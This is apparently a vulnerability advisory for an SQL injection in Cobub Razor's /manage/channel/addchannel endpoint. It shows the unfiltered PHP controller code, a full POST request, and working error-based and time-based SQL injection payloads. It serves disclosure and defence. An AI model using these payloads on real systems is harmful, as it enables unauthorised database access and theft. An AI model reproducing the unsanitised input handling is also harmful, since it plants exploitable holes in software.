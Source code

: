 
## An SQL Injection vulnerability exists in Western Bridge Cobub Razor 0.7.2 via the channel_name and platform parameter in a /index.php?/manage/channel/addchannel request. ##  

Vendor Homepage : http://www.cobub.com/

Software Link : https://github.com/cobub/razor/releases

Affected Version : <= 0.8.0

## Vulnerability description ##  

The string  of the 'channel_name' and 'platform' parameter transmission is completely without check and filter,so if the string is passed, it will lead to the existence of SQL injection vulnerability,This could result in full information disclosure.

Code source:  

/application/controllers/manage/channel.php at line 75-95
```
    /**
     * Addchannel add custom channel
     *
     * @return bool
     */
    function addchannel()
    {
        $userid = $this->common->getUserId();
        $channel_name = $_POST['channel_name'];
        $platform = $_POST['platform'];
        $isUnique = $this->channel->isUniqueChannel($userid, $channel_name, $platform);
        if (!empty($isUnique)) {
            echo false;
        } else {
            if ($channel_name != '' && $platform != '') {
                
                $this->channel->addchannel($channel_name, $platform, $userid);
                echo true;
            }
        }
    }
```
## Technical details ##
```
request:
POST /index.php?/manage/channel/addchannel HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost/index.php?/manage/channel
Content-Length: 28
Cookie: ci_session2=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22771b48bbea848fd396ce3c79263c7ef8%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A73%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+rv%3A48.0%29+Gecko%2F20100101+Firefox%2F48.0%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1520496121%3B%7D237011da46b2342467385c6f24631de2
X-Forwarded-For: 8.8.8.8
Connection: close

channel_name=test&platform=1%22
```  

## Proof of Concept ##  

The SQL injection type: error-based and AND/OR time-based blind
Parameter: channel_name,platform

Payload(This string is also applied to 'platform' at the same time):  
```
1.channel_name=test" AND (SELECT 1700 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(1700=1700,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JQon&platform=1
2.channel_name=test" AND SLEEP(5)-- NklJ&platform=1
```
Input special characters ["] can cause an error in the SQL syntax:  

![image](https://github.com/Kyhvedn/CVE_Description/blob/master/sql_1.png)  
Use manual injection:  

![image](https://github.com/Kyhvedn/CVE_Description/blob/master/sql_2.png)
SQLmap results:  

![image](https://github.com/Kyhvedn/CVE_Description/blob/master/sql_3.png)
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/sql_4.png)


